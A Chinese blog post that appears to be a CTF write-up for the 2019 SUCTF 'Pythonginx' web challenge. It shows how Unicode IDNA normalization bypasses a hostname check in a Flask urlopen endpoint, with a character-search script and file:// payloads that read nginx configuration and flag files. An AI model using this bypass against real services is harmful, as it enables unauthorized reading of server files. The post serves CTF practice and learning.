 ```yaml
---
layout: post
title: 2019 SUCTF web wp
date: 2021-07-22 16:38 +0800
last_modified_at: 2021-07-22 16:38:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```


* ## 0x01 Pythonginx

  关键词：nginx架构，编码与解码，python

进入界面，读取源码：

```
@app.route('/getUrl', methods=['GET', 'POST']) 
def getUrl(): 
    url = request.args.get("url") 
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111" 
    parts = list(urlsplit(url))
    host = parts[1] 
    if host == 'suctf.cc': 
        return "我扌 your problem? 222 " + host
    newhost = [] 
    for h in host.split('.'): 
        newhost.append(h.encode('idna').decode('utf-8')) 
        parts[1] = '.'.join(newhost) 
        #去掉 url 中的空格 
    finalUrl = urlunsplit(parts).split(' ')[0] 
    host = parse.urlparse(finalUrl).hostname 
    if host == 'suctf.cc': 
        return urllib.request.urlopen(finalUrl).read() 
    else: 
        return "我扌 your problem? 333"
```

源码基本逻辑为：

* 第一次主机地址不能为suctf.cc
* 第二次主机地址不能为suctf.cc
* 最后一次主机地址（经过idna编码和utf-8解码后）为suctf.cc后打开网址对应的网站并读取源码

故我们可以采用这个逻辑去进行编码，编码脚本如下：

```
for i in range(128,65537):    
    tmp=chr(i)    
    try:        
        res = tmp.encode('idna').decode('utf-8')        
        if("-") in res:            
            continue        
        print("U:{}    A:{}      ascii:{} ".format(tmp, res, i))    
    except:        
        pass
```

人工寻找能够在编码解码后替换网址的字符完成绕过

第一步payload：

```
file://suctf.cＣ
```

进入nginx文件读取环节，需要掌握基础知识如下：

* Nginx 重要文件目录

  配置文件存放目录：/etc/nginx
  主要配置文件：/etc/nginx/conf/nginx.conf
  管理脚本：/usr/lib64/systemd/system/nginx.service
  模块：/usr/lisb64/nginx/modules
  应用程序：/usr/sbin/nginx
  程序默认存放位置：/usr/share/nginx/html
  日志默认存放位置：/var/log/nginx
  Nginx配置文件：/usr/local/nginx/conf/nginx.conf
  
* 最终在nginx配置文件中找到flag位置

```
file://suctf.cＣ/usr/local/nginx/conf/nginx.conf
```

![su1](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/assets/su1.png)

最终payload：

```
file://suctf.cＣ/usr/fffffflag
```

